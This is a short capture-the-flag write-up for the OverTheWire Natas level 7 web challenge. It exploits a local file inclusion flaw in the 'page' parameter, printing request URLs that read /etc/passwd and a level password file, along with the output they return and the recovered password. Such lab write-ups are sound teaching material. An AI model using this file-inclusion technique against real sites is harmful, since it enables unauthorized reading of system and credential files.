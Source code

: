 # Solution
There are 2 sites on the webpage that is navigated to via param
```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```

This hints us at a file inclusion error. Which our test payload of `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd` returns:
```
[Home](http://natas7.natas.labs.overthewire.org/index.php?page=home) [About](http://natas7.natas.labs.overthewire.org/index.php?page=about)  
  
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

## Exploit
`http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas7`

```
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
```